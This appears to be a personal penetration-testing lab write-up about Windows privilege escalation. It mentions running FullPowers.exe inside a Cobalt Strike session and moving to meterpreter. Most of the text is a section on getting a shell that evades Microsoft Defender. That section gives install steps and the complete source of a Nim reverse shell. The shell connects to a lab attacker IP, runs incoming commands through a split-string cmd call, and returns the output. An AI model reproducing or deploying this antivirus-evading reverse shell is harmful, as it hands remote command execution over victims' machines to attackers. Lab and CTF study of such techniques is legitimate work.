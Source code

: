 uploaded and ran the `FullPowers.exe` and it looks like it wanted to give me a `SYSTEM` shell but couldn't because i am in a cobalt strike session
![[Pasted image 20240126170637.png]]
going to session pass to a `meterpreter` and run it again to see if able to get `SYSTEM`



# Getting an actual shell

utilized this youtube video to get a `reverse shell` that actually bypassed defender
https://www.youtube.com/watch?v=BX-vFcRV664

github:
https://github.com/Sn1r/Nim-Reverse-Shell

the steps are listed below:
- make sure to have `mingw-w64` installed as well `nim` 
	- `sudo apt install mingw-w64` & `sudo apt install nim`
- utilized the `nim reverse shell` below  and saved into file named `rev_shell.nim`

```bash
#[ 
   Created by Sn1r
   https://github.com/Sn1r/
 ]#

import net, os, osproc, strutils

proc exe(c: string): string =
  result = execProcess("cm" & "d /c " & c)

var
  v = newSocket()

  # Change this
  v1 = "10.10.14.39"
  v2 = "5555"

  s4 = "Exiting.."
  s5 = "cd"
  s6 = "C:\\"

try:
  v.connect(v1, Port(parseInt(v2)))

  while true:
    v.send(os.getCurrentDir() & "> ")
    let c = v.recvLine()
    if c == "exit":
      v.send(s4)
      break

    if c.strip() == s5:
      os.setCurrentDir(s6)
    elif c.strip().startswith(s5):
      let d = c.strip().split(' ')[1]
      try:
        os.setCurrentDir(d)
      except OSError as b:
        v.send(repr(b) & "\n")
        continue
    else:
      let r = exe(c)
      v.send(r)

```